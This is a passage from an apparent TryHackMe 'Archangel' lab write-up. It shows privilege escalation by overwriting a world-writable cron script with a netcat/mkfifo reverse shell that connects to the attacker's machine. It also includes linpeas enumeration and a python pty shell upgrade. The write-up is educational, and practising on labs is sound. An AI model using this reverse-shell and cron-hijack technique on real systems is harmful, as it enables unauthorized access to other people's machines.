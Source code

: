 2021-02-05 01:43:47 (61.4 KB/s) - 'linpeas.sh' saved [229696/229696]
                                               
www-data@ubuntu:/tmp$ bash linpeas.sh`


Looking through the results, I find a cronjob for the archangel user


`[+] Cron jobs 

.............................................

*/1 *   * * *   archangel /opt/helloworld.sh`


Checking out this file, I see it runs a basic echo script.


`www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt`


Looking at the permissions, I find everyone has permission to write to this file


`www-data@ubuntu:/opt$ ls -la helloworld.sh 
-rwxrwxrwx 1 archangel archangel 66 Nov 20 10:35 helloworld.sh`


Since I can write to the file, I put in a reverse shell


`www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.8.75 1234 >/tmp/f" > helloworld.sh`


After setting up a netcat listener and waiting for a few moments, I get a connect back as archangel

`root@kali:~/tryhackme/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40080
/bin/sh: 0: can't access tty; job control turned off

$ whoami
archangel`


Again, I import python3 into the shell

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'
archangel@ubuntu:~$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

archangel@ubuntu:~$`


Now, I can read the 3rd flag


![flag3](https://spy0x7.cf/assets/archangel/flag3.jpg)

